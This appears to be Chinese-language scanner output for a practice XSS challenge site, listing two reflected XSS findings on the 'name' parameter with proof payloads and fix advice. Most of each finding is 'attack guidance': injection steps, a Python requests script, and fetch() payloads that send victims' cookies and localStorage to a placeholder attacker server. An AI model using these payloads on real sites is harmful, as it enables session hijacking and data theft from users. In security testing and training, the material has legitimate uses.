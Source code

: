 ### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 严重程度: medium
- 验证载荷: <script>alert(1)</script>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
   - 在参数 name 中注入以下payload:
   ```javascript
   <script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level1.php?name=test'
   params = {'name': '<script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 严重程度: medium
- 验证载荷: <img src=x onerror=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
   - 在参数 name 中注入以下payload:
   ```javascript
   <img src=x onerror=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level1.php?name=test'
   params = {'name': '<img src=x onerror=alert(1)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```
